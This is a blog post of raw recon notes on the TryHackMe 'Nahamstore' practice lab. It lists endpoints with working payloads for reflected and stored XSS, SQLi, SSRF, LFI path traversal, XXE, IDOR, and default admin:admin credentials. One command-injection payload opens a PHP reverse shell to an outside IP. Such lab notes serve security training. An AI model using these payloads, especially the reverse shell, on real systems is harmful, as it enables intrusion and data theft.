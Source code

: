 ```yaml
---
layout: post
title: "Nahamstore Recon Notes"
date: 2022-08-16 00:00:0
permalink: nahamstore-recon-notes/
tags: bug bounty tryhackme
---
```

_Not a walkthrough or writeup. Just my raw recon notes and vulnerabilities_
<br><br>
### Root domains
- nahamstore.thm

### Web Technologies
- nginx, ubuntu, jqurey

---
## nahamstore.thm
__Ports:__ 22,80,8000

### www.nahamstore.thm, shop.nahamstore.thm -> nahamstore.thm
-   `/<img src=/ onerror=alert()>` [rXSS] [Page Not Found]
-   `/?q` [rXSS]
-   `/?r` [open redirect]
<br><br>
-	`/basket` [POST] [address_id] [IDOR, PII]
<br><br>
-	`/register` [POST] [register_email, register_password]
-	`/register?redirect_url` [open redirect]
<br><br>
-	`/returns` [POST] [return_info] [sXSS]
-   `/returns` [POST] [order_number] [SQLi]
<br><br>
-   `/uploads` [301 -> 127.0.0.1:80]
<br><br>
- 	`/login`
-	`/logout`
<br><br>
-	`/search?q='-alert("test")-'` [rXSS] [js param `search`]
-   `/?q=%22+onfocus%3Dalert()+autofocus+` [rXSS][searchbox]
<br><br>
-   `/stockcheck` [POST] [SSRF] 
`server=stock.nahamstore.thm@internal-api.nahamstore.thm?a=&product_id=1`
<br><br>
-	`/staff` [File Upload - "xlxs only"] [XXE via xlxs]
<br><br>
-   `/account/orders`
-   `/account/settings` [Email,password change, disable acct]
-   `/account/addressbook` [Address change]
-   `/account/addressbook` [POST] [`new_address_title,new_address_fname,new_address_lname,new_address_line1,new_address_line2,road,new_address_line3,new_address_state,new_address_zipcode`]
-   `/account/orders/3`
<br><br>
-   `/product?id=2&name=</title>` [rXSS] 
-   `/product?id=2&discount=" onfocus="alert()" autofocus "` [rXSS]
-   `/product` [Discount, Add to basket, Check Stock]
-   `/product?id=` [SQLi] [rXSS]
-   `/product` [POST] [discount] [rXSS]
-   `/product/picture/?file=....//....//....//....//....//lfi/flag.txt` [LFI] 
<br><br>
-   `/pdf-generator` [POST] [IDOR] 
`what=order&id=3%26user_id=3`
- `/pdf-generator` [POST] [Blind RCE]
`what=order&id=4%3b$(php+-r+'$sock%3dfsockopen("10.11.80.81",1337)%3bshell_exec("sh+<%263+>%263+2>%263")%3b')`

### internal-api.nahamstore.thm
-   `/orders` [Information Disclosuer, IDOR]
[`"id":"4dbc51716426d49f524e10d4437a5f5a","5ae19241b4b55a360e677fdd9084c21c","70ac2193c8049fcea7101884fd4ef58e"`]

### nahamstore.thm:8000
-   `/admin` [admin:admin] [Marketing Manager Dashboard]
-   `/admin/8d1952ba2b3c6dcd76236f090ab8642c` [RCE] [PHP rev shell]

### marketing.nahamstore.thm
-   `/?error=` [XSS]

### nahamstore-2020-dev.nahamstore.thm [API]
-   /api/customers/?customer_id=2 [IDOR, Information Disclosure]

### stock.nahamstore.thm [API]
-   `/product`
-   `/product/1`
-   `/product/1?xml` [XML output]
-   `/product/1?xml` [XXE] [POST]

<br>
```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <X-Token>
        &xxe;
    </X-Token>
</data>
```